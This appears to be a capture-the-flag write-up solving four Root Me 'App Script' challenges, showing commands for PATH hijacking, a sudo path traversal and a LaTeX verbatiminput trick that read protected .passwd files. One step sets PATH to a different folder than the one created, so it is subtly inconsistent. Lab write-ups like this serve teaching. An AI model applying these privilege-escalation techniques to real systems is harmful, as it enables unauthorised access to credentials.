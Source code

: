 ```yaml
---
title: Root Me | App Script
author: Zeropio
date: 2022-01-25
categories: [RootMe, AppScript]
tags: [rootme, appscript, veryeasy]
permalink: /rootme/app-script/very-easy
---
```


# Bash - System 1
We need to copy cat into our folder, then change the name to "ls" and change the path to that folder.
Now the script will read it as cat.
```console
$ mkdir /tmp/zeropio
$ cp /bin/cat /tmp/zeropio
$ mv /tmp/zeropio/cat /tmp/zeropio/ls
$ export PATH=/tmp/zeropio:$PATH
$ ./ch11
```

# Sudo - weak configuration
We need to see all the sudo options (with -l). Then we can see we need to use the cracked user, who can only do a cat to ./notes/ .
```console
$ sudo -l
$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
```

# Bash - System 2
As we did in the first, we need to use nano instead of cat because the script have the options -al.
```console
$ mkdir /tmp/zeropio
$ cp /bin/nano /tmp/zeropio
$ mv /tmp/zeropio/nano /tmp/zeropio/ls
$ export PATH=/tmp/zeropio2:$PATH
$ ./ch12
```

# LaTex Input
We will create a **main.tex** file with the following content:
```console
\documentclass{article}
\usepackage{verbatim}

\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```

We will generate a **main.pdf** file:
```console
$ ./setuid-wrapper /tmp/main.tex
```

Then we will just get the pdf:
```console
 $ scp -P 2222 app-script-ch23@challenge02.root-me.org:/tmp/tmp.pIzF7UG6do/main.pdf .
```
